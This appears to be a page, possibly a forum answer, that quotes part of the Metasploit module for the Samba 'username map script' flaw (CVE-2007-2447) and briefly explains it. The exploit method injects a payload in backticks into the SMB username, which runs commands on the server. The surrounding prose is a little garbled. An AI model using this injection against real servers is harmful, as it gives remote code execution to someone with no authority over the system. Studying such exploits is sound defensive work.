 ```ruby 
                        [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                        [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                    ],
            'Platform'       => ['unix'],
            'Arch'           => ARCH_CMD,
            'Privileged'     => true, # root or nobody user
            'Payload'        =>
                    {
                        'Space'    => 1024,
                        'DisableNops' => true,
                        'Compat'      =>
                                {
                                    'PayloadType' => 'cmd',
                                    # *_perl and *_ruby work if they are installed
                                    # mileage may vary from system to system..
                                }
                    },
            'Targets'        =>
                    [
                            [ "Automatic", { } ]
                    ],
            'DefaultTarget'  => 0,
            'DisclosureDate' => 'May 14 2007'))

        register_options(
            [
                    Opt::RPORT(139)
            ], self.class)
    end
        def exploit

            connect

            # lol?
            username = "/=`nohup " + payload.encoded + "`"
            begin
                simple.client.negotiate(false)
                simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
            rescue ::Timeout::Error, XCEPT::LoginError
                    # nothing, it either worked or it didn't ;)
            end
            handler
        end
end  

```

The key part is `def exploit` function. It's changing an smb session using:
- username = /=\`nohop [payload]\`
- password - random 16 characters
- domain = user provided domain
